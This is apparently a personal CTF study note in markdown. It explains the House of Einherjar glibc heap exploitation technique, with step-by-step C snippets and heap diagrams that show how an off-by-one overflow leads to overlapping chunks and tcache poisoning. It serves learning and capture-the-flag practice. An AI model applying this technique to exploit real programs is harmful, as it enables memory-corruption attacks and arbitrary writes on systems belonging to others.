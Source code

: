 ```yaml
---
tags:
  - pwn/heap
  - pwn/technique
---
```

# Description
The **House of Einherjar** is a technique that leverages an [[off-by-one]] overflow on a buffer on the heap (most commonly a *null byte* overflow) to eventually gain an arbitrary chunk allocation.

TL;DR:
1. We use the off-by-one overflow to forge a fake freed, doubly-linked chunk
2. Free an adjacent chunk to coalesce it with our fake chunk
3. Our coalesced chunk lands in the [[bins#unsorted bin|unsorted bin]] ([[LIBC]] leak)
4. Perform [[tcache poisoning]] with your new [[overlapping chunks]]
# Attack
## Requirements
- Heap leak %% #pwn/heap-leak %%
- [[off-by-one]] overflow
## Result
- [[overlapping chunks]] / [[use after free|UAF]]
- [[tcache poisoning]]
## Process
### Parameters/Constraints
- Chunk `a` size: `sz_a`, can be any
- Chunk `b` size (desired tcache poisoning size): `sz_b`, must be tcache sized and have a least significant nibble of `0x8` (to enable the off-by-one overflow)
- Chunk `c` size: `sz_c`, must be greater than <abbr title="0x58">fastbin_max</abbr> so it will go to [[bins#unsorted bin|unsorted bin]]
	- If the off-by-one overflow is a *null byte* overflow, it must be at least 0x100, and it is most convenient if it least significant byte is 0x00 (so the overflow only changes the flags, and not chunk `c`'s size).
- Target pointer for allocation, `target`
### Steps
This analysis will assume that we have a *null byte* overflow and:
- `sz_a = 0x38`
- `sz_b = 0x28`
- `sz_c = 0xf8`
1. Allocate chunk `a`
   ```c
	inptr_t a = malloc(0x38); // real size of 0x40
	```
2. Create the fake chunk in the data section of chunk `a` (i.e., fake chunk's header will be right below chunk `a`).
   ```c
	a[0] = 0; // prev_size, doesn't matter
	a[1] = 0x40 + 0x30 - 0x10; // size is the combined *real* sizes of chunks a and b, minus 0x10 to account for chunk a's header
	a[2] = a; // fd
	a[3] = a; // bk, 
	```
	Note that we need `a->fd->bk == a` and `a->bk->fd == a`, thus `a->fd = a->bk = a` works!
3. Allocate chunk `b`. This will be the overlapping chunk with our fake chunk.
   ```c
	inptr_t b = malloc(0x28); // real size of 0x30
	```
4. Allocate chunk `c`.
   ```c
	inptr_t c = malloc(0xf8); // real size of 0x100
	```
	The heap structure now looks like this:
	```
	a:      0x0      0x41
	fake:   0x0      0x60
			&a       &a
			0x0      0x0
	b:      0x0      0x31
	        0x0      0x0
	        0x0      0x0
	c:      0x0      0x101
			...      ...
	```
5. Use off-by-one overflow on chunk `b` to overflow into the header of chunk `c`, resulting in chunk `c`'s `PREV_INUSE` flag being set to `0`.
   ```c
	memset(b, 0, 0x28 + 1);
	```
	That is,
	```
	c:      0x0      0x100
			...      ...
	```
6. Write a fake `prev_size` for our fake chunk right above chunk `c`. This will pass the "corrupted size vs. prev_size" error when attempting to consolidate
   ```c
	b[4] = 0x60
	```
	i.e.,
	```
	b:      0x0      0x31
			0x0      0x0
			0x0      0x0
	c:		0x60     0x100
			...      ...
	```
7. Fill [[bins#tcache|tcache]] for `sz_c` so chunk `c`, when freed, will go to unsorted bin not tcache (alternatively, this may be done before step 1, just makes debugging a bit more difficult that way)
   ```c
	for (int i = 0; i < 7; i++) {
		malloc(0xf8);
	}
	
	malloc(0x18); // malloc once more to ensure no coalescing with top chunk
	
	for (int i = 0; i < 7; i++) {
		malloc(0xf8);
	}
	```
8. Free chunk `c`, triggering consolidation with the fake chunk since chunk `c`'s `PREV_INUSE` flag is `0`, causing `free()` to think the previous chunk can be consolidated.
   ```c
	free(c);
	```
9. Now malloc some chunk of size greater than `sz_a = 0x38`:
   ```c
	d = malloc(0x70);
	```
   and we have overlapping chunks! The chunk `d` will take a portion of the unsorted bin chunk formed by the consolidation of chunk `c` with our fake chunk. This chunk thus overlaps with chunk `b`. From here, exploits vary depending on program constraints. The general idea is to achieve [[tcache poisoning]], e.g.
	1. Allocating and freeing another chunk of `sz_b = 0x28` into the tcache bin for (real) size 0x30. This is necessary so that we can eventually have the number of chunks in this tcache bin be set to 2, enabling us to allocate twice in a row later. See \[2\] for more details.
	2. Freeing chunk `b` into tcache.
	3. Writing into chunk `d` to corrupt chunk `b`'s next pointer for tcache poisoning.
	4. Allocate twice to get an arbitrary chunk allocation!
# Examples
- smiley CTF 2025 / pwn / limit
# References
1. [how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_einherjar.c) 
2. https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f